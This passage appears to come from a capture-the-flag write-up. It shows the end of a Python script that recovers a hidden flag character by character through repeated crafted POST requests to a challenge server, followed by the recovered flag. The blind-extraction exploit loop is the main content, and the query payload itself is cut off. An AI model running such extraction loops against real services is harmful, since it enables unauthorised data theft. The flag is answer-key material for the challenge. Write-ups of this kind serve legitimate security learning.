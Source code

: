 ```python
    }
    return data


def main():
    _min = 32
    _max = 126
    flag = ""

    for i in range(0, 30):
        for c in range(_min, _max):
            q = chr(c)
            data = querier(i, q) 
            r = requests.post(url, data=data)
            if re.search(r'1337', r.text):
                flag += q
                print(flag)
                break
            else:
                pass

if __name__ == "__main__":
    main()
```
flag: **TBTL{wh3R3_15_mY_GR4PH_h1dd3n}**
